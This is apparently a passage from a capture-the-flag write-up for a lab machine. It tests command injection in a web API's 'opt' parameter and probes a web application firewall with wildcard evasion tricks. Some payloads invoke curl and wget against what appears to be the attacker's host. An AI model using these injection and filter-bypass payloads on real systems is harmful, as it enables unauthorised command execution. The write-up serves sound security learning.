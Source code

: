    < 

    * Closing connection 0



If i put in something else for `opt` without the ':



    root@kali# curl -v "http://fluxcapacitor.htb/sync?opt=ls" -x http://127.0.0.1:8080
    *   Trying 127.0.0.1:8080...
    * Connected to (nil) (127.0.0.1) port 8080 (#0)
    > GET http://fluxcapacitor.htb/sync?opt=ls HTTP/1.1
    > Host: fluxcapacitor.htb
    > User-Agent: curl/7.81.0
    > Accept: */*
    > Proxy-Connection: Keep-Alive
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 403 Forbidden
    < Date: Sat, 15 Jul 2023 10:10:25 GMT
    < Content-Type: text.md
    < Content-Length: 175
    < Connection: close
    < 
    .md>
    <head><title>403 Forbidden</title></head>
    <body bgcolor="white">
    <center><h1>403 Forbidden</h1></center>
    <hr><center>openresty/1.13.6.1</center>
    </body>
    <.md>
    * Closing connection 0



Tried a bunch of different stuff, all that returns 403:

-   `http://fluxcapacitor.htb/sync?opt='echo'`
-   `http://fluxcapacitor.htb/sync?opt='echo`
-   `http://fluxcapacitor.htb/sync?opt='pwd`
-   `http://fluxcapacitor.htb/sync?opt='/bin/ls`
-   `http://fluxcapacitor.htb/sync?opt='/usr/bin/curl+10.10.15.147`
-   `http://fluxcapacitor.htb/sync?opt='wget`
-   `http://fluxcapacitor.htb/sync?opt=wget`

Other stuff returns the time (api working correctly), and these have the
same Server: SuperWAF header in the response:

-   `http://fluxcapacitor.htb/sync?opt=''`
-   `http://fluxcapacitor.htb/sync?opt='.'`
-   `http://fluxcapacitor.htb/sync?opt='/'`

Other stuff returns an empty line:

-   `http://fluxcapacitor.htb/sync?opt='/`
-   `http://fluxcapacitor.htb/sync?opt='/b`
-   `http://fluxcapacitor.htb/sync?opt='/bin`
-   `http://fluxcapacitor.htb/sync?opt='/bin/l`
-   `http://fluxcapacitor.htb/sync?opt='/bin/l?`
-   `http://fluxcapacitor.htb/sync?opt='/usr/bin/cur?+10.10.15.147`
